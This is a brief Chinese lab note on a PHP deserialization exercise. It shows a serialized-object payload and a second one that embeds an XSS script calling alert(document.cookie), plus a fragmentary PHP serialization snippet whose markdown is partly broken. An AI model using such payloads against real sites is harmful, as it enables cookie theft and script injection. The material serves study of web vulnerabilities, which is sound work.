


# PHP反序列化漏洞

　　顾名思义 php被序列化 反序列化的利用

　　概述里作者给我了我们一个payload，我们提交试一下

　　​**​`O:1:"S":1:{s:4:"test";s:29:"";  
}

　　 **$a=new S();
echo serialize($a)
?&gt;**

　　[PHP 在线工具 | 菜鸟工具](https://www.jyshare.com/compile/1/)

　　**O:1:"S":1:{s:4:"test";s:39:"&lt;script&gt;alert(document.cookie)&lt;/script&gt;";}**

